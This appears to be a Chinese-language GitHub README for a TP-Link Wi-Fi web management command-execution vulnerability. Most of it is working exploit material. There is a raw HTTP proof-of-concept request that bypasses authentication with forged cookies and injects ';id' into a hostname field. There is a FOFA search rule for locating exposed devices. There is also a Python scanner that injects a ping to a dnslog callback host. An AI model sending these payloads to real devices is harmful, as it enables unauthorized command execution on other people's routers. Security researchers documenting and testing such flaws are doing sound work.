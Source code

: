 # tp-link_wifi_rce
TP-link WIFI web管理认证绕过+命令执行漏洞



TP-link WIFI web管理命令执行



poc：

`POST /cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1 HTTP/1.1`
`Host: ip`
`User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:22.0) Gecko/20100101 Firefox/22.0`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`
`Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3`
`Accept-Encoding: gzip, deflate`
`Cookie: cooLogin=1; cooUser=1`
`Connection: close`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 42`

`call_function=ping&iface=eth0&hostname=;id`

![image](https://user-images.githubusercontent.com/42840611/130399378-1f74cd39-dc16-40ba-83ef-0f28a86257ed.png)


fofa规则：

title="Wi-Fi Web管理"





漏洞检测脚本：

`#!/usr/bin/python`
`#-*- coding:utf-8 -*-`

`import click`
`import requests`


`def title():`
    `print('+------------------------------------------')`
    `print('+  作者：quanpangshu                       ')`
    `print('+  漏洞名称：TP-Link WIFI WEB管理命令执行漏洞')`
    `print('+  使用格式:  python3 poc.py   --help       ')`
    `print('+------------------------------------------')`


`def scan(host):`
    `url = str(host)+"/cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1"`
    `headers = {`
        `"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",`
        `"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",`
        `"Accept-Language": "zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3",`
        `"Accept-Encoding": "gzip, deflate",`
        `"Content-Type": "application/x-www-form-urlencoded",`
        `"Cookie": "cooLogin=1; cooUser=1"`
    `}`
    `payload = "call_function=ping&iface=eth0&hostname= %3bping 5dsdj4.dnslog.cn"`

    try:
        rep = requests.post(url=url, headers=headers, data=payload, timeout=70, verify=False)
    except:
        print("漏洞不存在")
    if rep.status_code == 502:
        print("漏洞存在！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！请前往dnslog平台再次确认")
    else:
        print("漏洞不存在")

`@click.command()`
`@click.option("-h", "--host", help='Target URL; Example:http://ip:port。')`
`def main(host):`
    `title()`
    `scan(host)`

`if __name__ == '__main__':`
    `main()`







![image](https://user-images.githubusercontent.com/42840611/130399299-7c90b71e-c3ca-4f24-8cdb-0b6acbe7f0ff.png)


